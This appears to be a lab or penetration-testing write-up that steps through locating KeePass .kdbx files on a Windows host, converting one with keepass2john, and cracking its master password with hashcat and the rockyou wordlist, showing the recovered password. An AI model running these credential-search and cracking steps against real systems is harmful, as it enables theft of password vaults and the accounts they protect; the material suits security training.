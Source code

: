 We will extract the password manager database, transform the file to be compatible with Hashcat and crack the database password. 

The KeePass database is a `.kdbx file`

1. Search for all databases (`.kdbx`) files on the system

`Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

Found one `Database.kdbx` file and transferred it to Kali. 

2. Format the hash for cracking

Hash formatters include:  [_ssh2john_](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py) and _[keepass2john_](https://github.com/openwall/john/blob/bleeding-jumbo/src/keepass2john.c)

Using #keepass2john to format and save output as `keepass.hash`

`keepass2john Database.kdbx > keepass.hash`

Result:

```
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```

Need to remove the `Database` string for hashcat.

Finding the mode of KeePass in Hashcat

`hashcat --help | grep -i "KeePass"`

Result:

```
13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)         | Password Manager
```

Mode: 13400

3. Prepare wordlist 

Using pre-made list `rockyou-30000.rule` with `rockyou.txt`

Cracking the KeePass database hash

`hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`

Result:

````
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
````

#### SSH Private Key Passphrase
